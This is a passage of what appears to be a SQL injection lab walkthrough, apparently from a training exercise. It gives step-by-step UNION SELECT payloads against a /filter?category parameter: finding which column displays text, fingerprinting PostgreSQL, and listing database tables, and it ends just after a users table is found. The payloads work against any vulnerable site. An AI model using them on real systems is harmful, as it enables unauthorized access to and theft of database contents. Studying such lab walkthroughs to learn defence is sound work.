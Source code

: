 ✅ Confirmed: There are **2 columns**.

### 🔹 Step 3: Use `UNION SELECT` to Inject Data

Now try injecting data using `UNION SELECT`.

```http
GET /filter?category='+UNION+SELECT+NULL,NULL--
```

✅ If page loads normally → Payload executed successfully.

### 🔹 Step 4: Find Which Column Displays Text

Test which of the two columns displays text:

```http
GET /filter?category='+UNION+SELECT+'a',NULL--   → ❌ No output  
GET /filter?category='+UNION+SELECT+NULL,'a'--   → ✅ Output shown  
```

✅ Confirmed: Only the **second column** is visible.

So, all useful injected data must be placed in the **second column**.

### 🔹 Step 5: Try to Identify the Database Type

Try injecting DB-specific syntax to determine whether it's **MySQL**, **MSSQL**, or **PostgreSQL**.

#### 🟡 For MySQL/MSSQL:
```http
GET /filter?category='+UNION+SELECT+NULL,@@version--
```

If this fails, try:

#### 🟡 For PostgreSQL:
```http
GET /filter?category='+UNION+SELECT+NULL,version()--
```

✅ If this returns something like:
```
PostgreSQL 13.3 (Debian 13.3-1.pgdg110+1) on x86_64-pc-linux-gnu, compiled by gcc 10.2.1
```

→ Confirmed: Backend is **PostgreSQL**.

### 🔹 Step 6: List All Tables in the Database

Now that we know it's PostgreSQL, use the standard SQL schema metadata:

```http
GET /filter?category='+UNION+SELECT+NULL,table_name+FROM+information_schema.tables--
```

✅ Returns list of tables including one that looks like a users table:  
- `users_oxbwnm` (randomized name)
